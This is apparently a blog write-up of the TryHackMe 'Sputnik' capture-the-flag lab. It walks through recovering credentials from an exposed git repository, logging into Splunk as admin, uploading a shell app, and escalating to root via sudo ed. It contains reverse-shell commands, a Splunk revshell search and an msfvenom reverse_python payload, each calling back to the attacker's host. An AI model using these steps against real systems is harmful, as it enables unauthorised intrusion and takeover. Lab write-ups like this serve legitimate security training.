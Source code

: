 ```yaml
---
layout: post
permalink: /posts/thm/sputnik
title: "THM write-up: Sputnik"
date: 2020-08-10 18:38
tags: tryhackme CTF recon privilege_escalate reverse_shell
description: "Greeting there, today we are going for another tryhackme CTF challenge. This room is ported by user DarkStar7471 from VulnHub."
---
```


![titlecard](/assets/images/THM/2020-08-10-sputnik/1.png)

[Link: https://tryhackme.com/room/sputnik](https://tryhackme.com/room/sputnik)

Greeting there, today we are going for another tryhackme CTF challenge. This room is ported by user DarkStar7471 from VulnHub. For your information, [the Vulnhub](https://www.vulnhub.com/) is training ground for CTF challenger or a place to sharpen your pentesting skill. This challenge required basic knowledge of the git command and Splunk. If you are new to git, [this article](https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/) and [cheat sheet](https://github.github.com/training-kit/downloads/github-git-cheat-sheet.pdf) might help you out. Let's start the walkthrough, shall we?

## Task 1: Capture the flag

Your task is to capture the root flag. That's all.

### Task 1-1: Secret?

First off, we are going to launch the Nmap scanner using the following command.

```
nmap -Pn -p- -A -v <MACHINE IP>
```

![nmap](/assets/images/THM/2020-08-10-sputnik/2.png)

![more nmap](/assets/images/THM/2020-08-10-sputnik/3.png)

There a total of 4 open ports available on the machine which is Port 8089 (HTTPS), 8191 (Mongo dB), 55555 (HTTP), and 61337 (HTTP).

#### 1) Port 8089

![http](/assets/images/THM/2020-08-10-sputnik/4.png)

A Splunk atom feed that required a login credential. Skip it.

#### 2) Port 55555

![flappy](/assets/images/THM/2020-08-10-sputnik/5.png)

Ah, what a lovely raging game. By referring to the Nmap scanner,  there are a .git directory hidden within port 55555.

![git](/assets/images/THM/2020-08-10-sputnik/6.png)

Look like an exposed git directory. Please refer to [this article](https://medium.com/@logicbomb_1/bugbounty-how-i-was-able-to-download-the-source-code-of-indias-largest-telecom-service-52cf5c5640a1) for more information. After that download the git file into your machine using the following command.

```
wget -r http://<Machine IP>:55555/.git
```

We are going to enumerate the entire git folder. Let's check with the stat using **'git status'**.

![enumerate git](/assets/images/THM/2020-08-10-sputnik/7.png)

We got four deleted files. Also, you can check the deleted content using **'git diff'** status

![delete git](/assets/images/THM/2020-08-10-sputnik/8.png)

Nothing out of ordinary at all. Next, check for the hidden files inside the branches using **'git branch'**.

![branch git](/assets/images/THM/2020-08-10-sputnik/9.png)

Nope, nothing inside. We have checked the file status inside the git. How about history? Use **'git log'**.

![git log](/assets/images/THM/2020-08-10-sputnik/10.png)

Well, reading this log entry raise suspicion. We are going to revert back the git to commit id  07fda135aae22fa7869b3de9e450ff7cacfbc717 using **'git reset --hard <id>'** .

![git reset](/assets/images/THM/2020-08-10-sputnik/11.png)

Error? Huh... I guess this git is not originated from this server. Let enumerate what is inside the folder.

![origin](/assets/images/THM/2020-08-10-sputnik/12.png)

Checking the **origin** file inside the  **.git/logs/refs/remotes** give us an idea. This git is originally from https://github.com/ameerpornillos/flappy.git. Without further ado, let's clone the git repo and revert the commit.

![message](/assets/images/THM/2020-08-10-sputnik/13.png)

A secret file leaves us the following message.

```
sputnik:ameer_says_thank_you_and_good_job
```

Let's search for more clue about this file by reverting it to the id where the file getting an update.

![update](/assets/images/THM/2020-08-10-sputnik/14.png)

Wrong info? I guess this file contains a piece of important information. Login credential perhaps? Also, We haven't discovered the port 61337 yet.

### Task 1-2: Capture the root flag

#### 1) Port 61337

![splunk](/assets/images/THM/2020-08-10-sputnik/15.png)

A Splunk server login page eh. Gonna try the credential (user: sputnik, password: ameer_says_thank_you_and_good_job).

![server](/assets/images/THM/2020-08-10-sputnik/16.png)

Oops, we accidentally login into the server and we have admin privilege for the server too. To access to the machine, we need to generate a reverse shell. [This article](https://www.hackingarticles.in/penetration-testing-on-splunk/) providing a full guide on exploiting using the [Splunk shell](http:// https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz 1 https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz), worth a read. First off, download the Splunk shell from this website and **go to search and report**.

![search report](/assets/images/THM/2020-08-10-sputnik/17.png)

At the top bar, click the **App: Search & Reporting** and select **manage Apps**.

![manage apps](/assets/images/THM/2020-08-10-sputnik/18.png)

We are going to **install the app from file** at the top right. Then, upload the tar.gz file we just downloaded.

![install](/assets/images/THM/2020-08-10-sputnik/19.png)

![upload](/assets/images/THM/2020-08-10-sputnik/20.png)

After that, restart the Splunk server.

![restart](/assets/images/THM/2020-08-10-sputnik/21.png)

Login to the server again, we have the apps inside the server.

![apps](/assets/images/THM/2020-08-10-sputnik/22.png)

Then, select the **radio button** to All apps and save it.

![all apps](/assets/images/THM/2020-08-10-sputnik/23.png)

Fire up your Netcat listener in your own machine using the following command

```
nc -lvnp 4444
```

Go back the search & reporting and enter the following command on Splunk search field. Make sure you use your own [tunnel IP](https://tryhackme.com/access).

```
| revshell std <Tunnel IP> 4444
```

![search again](/assets/images/THM/2020-08-10-sputnik/24.png)

![tunnel](/assets/images/THM/2020-08-10-sputnik/25.png)

#### 2) Spawn a TTY shell

![shell](/assets/images/THM/2020-08-10-sputnik/26.png)

Ta-da, we are now inside the victim machine. Time to capture the root's flag. This shell looks a bit 'dirty', how about spawn a shell using the Python?

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![spawn shell](/assets/images/THM/2020-08-10-sputnik/27.png)

Weird!, we can't spawn a shell using python inside the session. After googling and researching, I come across [this article](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). We are now going to use msfvenom to spawn a shell from a shell, what a 'shellception'. We are going to use port 2222 for the second shell.

```
msfvenom -p cmd/unix/reverse_python LHOST=<Tunnel IP> LPORT=2222 R
```

![msfvenom](/assets/images/THM/2020-08-10-sputnik/28.png)

#### 3) Capture the flag

Launch another Netcat with port 2222 and copy the payload to the first shell.

![more shell](/assets/images/THM/2020-08-10-sputnik/29.png)

We are now able to spawn a TTY shell inside the machine. Let's check what can we do with the sudo command.

![sudo](/assets/images/THM/2020-08-10-sputnik/30.png)

We can run 'ed' command inside the machine using sudo command. Checking the ed command from [GTFObin](https://gtfobins.github.io/gtfobins/ed/) give us an answer.

![ed](/assets/images/THM/2020-08-10-sputnik/31.png)

![root](/assets/images/THM/2020-08-10-sputnik/32.png)

Congratulation, you are now rooted in the machine.Time for the flag.

## Conclusion

That's all for the Sputnik boot2root CTF challenge. Hope you enjoy the walkthrough. until nex time ;)
